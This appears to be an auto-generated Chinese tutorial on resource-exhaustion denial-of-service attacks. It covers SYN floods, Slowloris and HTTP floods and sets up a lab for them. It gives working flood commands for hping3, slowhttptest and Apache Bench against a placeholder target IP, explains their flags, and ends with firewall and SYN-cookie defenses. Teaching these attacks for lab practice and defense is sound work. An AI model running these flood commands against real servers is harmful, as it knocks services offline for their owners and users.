 # 资源配额耗尽攻击的案例分析

## 1. 技术原理解析

### 1.1 资源配额耗尽攻击概述
资源配额耗尽攻击（Resource Exhaustion Attack）是一种通过消耗目标系统的关键资源（如CPU、内存、磁盘空间、网络带宽等）来导致服务不可用的攻击方式。攻击者通过精心构造的请求或操作，使系统资源迅速耗尽，从而影响正常用户的访问。

### 1.2 底层实现机制
资源配额耗尽攻击的底层机制通常涉及以下几个方面：

1. **CPU资源耗尽**：通过大量计算密集型任务或无限循环消耗CPU资源。
2. **内存资源耗尽**：通过大量内存分配或内存泄漏消耗内存资源。
3. **磁盘空间耗尽**：通过大量文件写入或日志记录消耗磁盘空间。
4. **网络带宽耗尽**：通过大量网络请求或数据包发送消耗网络带宽。

### 1.3 常见攻击类型
1. **DoS（Denial of Service）攻击**：通过单一或少量攻击源消耗目标资源。
2. **DDoS（Distributed Denial of Service）攻击**：通过大量分布式攻击源协同消耗目标资源。
3. **Slowloris攻击**：通过保持大量半开连接消耗服务器资源。
4. **SYN Flood攻击**：通过大量伪造的SYN请求消耗服务器资源。

## 2. 变种和高级利用技巧

### 2.1 Slowloris变种
Slowloris攻击通过保持大量半开连接消耗服务器资源。变种包括：
- **Slow POST**：通过缓慢发送POST请求体消耗服务器资源。
- **Slow Read**：通过缓慢读取响应数据消耗服务器资源。

### 2.2 SYN Flood变种
SYN Flood攻击通过大量伪造的SYN请求消耗服务器资源。变种包括：
- **ACK Flood**：通过大量伪造的ACK请求消耗服务器资源。
- **RST Flood**：通过大量伪造的RST请求消耗服务器资源。

### 2.3 高级利用技巧
1. **IP欺骗**：通过伪造源IP地址隐藏攻击源。
2. **反射攻击**：通过利用第三方服务器反射攻击流量。
3. **放大攻击**：通过利用协议漏洞放大攻击流量。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
1. **操作系统**：Linux（如Ubuntu 20.04）
2. **工具**：
   - **hping3**：用于SYN Flood攻击
   - **slowhttptest**：用于Slowloris攻击
   - **Apache Bench (ab)**：用于HTTP Flood攻击
3. **目标服务器**：搭建一个简单的Web服务器（如Apache或Nginx）

### 3.2 攻击步骤

#### 3.2.1 SYN Flood攻击
1. **安装hping3**：
   ```bash
   sudo apt-get install hping3
   ```
2. **发起SYN Flood攻击**：
   ```bash
   sudo hping3 -S --flood -p 80 <目标IP>
   ```
3. **监控目标服务器资源**：
   ```bash
   top
   ```

#### 3.2.2 Slowloris攻击
1. **安装slowhttptest**：
   ```bash
   sudo apt-get install slowhttptest
   ```
2. **发起Slowloris攻击**：
   ```bash
   slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://<目标IP> -x 24 -p 3
   ```
3. **监控目标服务器资源**：
   ```bash
   top
   ```

#### 3.2.3 HTTP Flood攻击
1. **安装Apache Bench**：
   ```bash
   sudo apt-get install apache2-utils
   ```
2. **发起HTTP Flood攻击**：
   ```bash
   ab -n 100000 -c 1000 http://<目标IP>/
   ```
3. **监控目标服务器资源**：
   ```bash
   top
   ```

## 4. 实际命令、代码或工具使用说明

### 4.1 hping3命令详解
- `-S`：发送SYN包
- `--flood`：快速发送大量包
- `-p 80`：目标端口
- `<目标IP>`：目标服务器IP地址

### 4.2 slowhttptest命令详解
- `-c 1000`：并发连接数
- `-H`：使用HTTP协议
- `-g`：生成报告
- `-o slowhttp`：输出文件名
- `-i 10`：发送间隔
- `-r 200`：请求速率
- `-t GET`：请求类型
- `-u http://<目标IP>`：目标URL
- `-x 24`：最大连接数
- `-p 3`：连接保持时间

### 4.3 Apache Bench命令详解
- `-n 100000`：总请求数
- `-c 1000`：并发请求数
- `http://<目标IP>/`：目标URL

## 5. 防御措施

### 5.1 配置防火墙
- **限制连接速率**：通过iptables限制每个IP的连接速率。
  ```bash
  sudo iptables -A INPUT -p tcp --dport 80 -m connlimit --connlimit-above 100 -j DROP
  ```
- **启用SYN Cookie**：通过启用SYN Cookie防御SYN Flood攻击。
  ```bash
  sudo sysctl -w net.ipv4.tcp_syncookies=1
  ```

### 5.2 使用CDN
- **内容分发网络（CDN）**：通过CDN分发流量，减轻服务器压力。

### 5.3 监控和报警
- **实时监控**：通过监控工具（如Nagios、Zabbix）实时监控服务器资源。
- **报警机制**：设置资源使用阈值，触发报警。

## 6. 结论
资源配额耗尽攻击是一种常见的网络攻击方式，通过消耗目标系统的关键资源导致服务不可用。了解其技术原理、变种和防御措施，对于保障Web服务的安全性和可用性至关重要。通过实验环境搭建和实际攻击演练，可以更好地理解和应对此类攻击。

---

*文档生成时间: 2025-03-14 12:01:55*
